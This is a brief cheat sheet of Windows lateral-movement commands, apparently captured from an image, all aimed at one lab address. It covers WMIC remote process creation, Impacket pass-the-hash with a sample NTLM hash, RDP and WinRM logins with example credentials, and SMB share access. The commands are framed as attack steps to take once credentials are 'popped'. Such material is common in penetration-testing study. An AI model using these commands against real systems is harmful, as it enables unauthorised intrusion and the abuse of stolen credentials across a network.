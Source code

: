 # Remote WMIC execution
wmic /node:10.10.10.5 process call create "cmd.exe /c whoami"

# Pass-the-Hash with Impacket
psexec.py administrator@10.10.10.5 -hashes aad3b435b51404eeaad3b435b51404ee:31337deadbeef1234567890abcdef

# Using RDP once creds are popped
xfreerdp /u:admin /p:SuperSecure123 /v:10.10.10.5

# Remote PowerShell session (WinRM)
Enter-PSSession -ComputerName 10.10.10.5 -Credential admin

# SMB-mounted share access
smbclient //10.10.10.5/share -U 'user' -c 'ls'


